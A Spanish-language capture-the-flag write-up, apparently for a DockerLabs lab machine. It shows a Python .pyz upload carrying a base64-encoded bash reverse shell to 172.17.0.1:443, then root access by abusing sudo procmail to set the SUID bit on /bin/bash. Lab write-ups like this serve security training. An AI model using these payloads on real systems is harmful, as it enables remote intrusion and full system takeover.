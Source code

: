 nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión

![image](https://github.com/user-attachments/assets/6a6eb0ab-ff4a-4779-8a46-521a44c1e07a)

al hacer un sudo -l aparece: /usr/bin/procmail

![image](https://github.com/user-attachments/assets/db26a903-36f3-4593-a894-88fd0d403f01)


en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![[dockerlabs/medio/chatme/codigo1.png]]

ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![[dockerlabs/medio/chatme/codigo2.png]]

ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![[bash.png]]

volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!
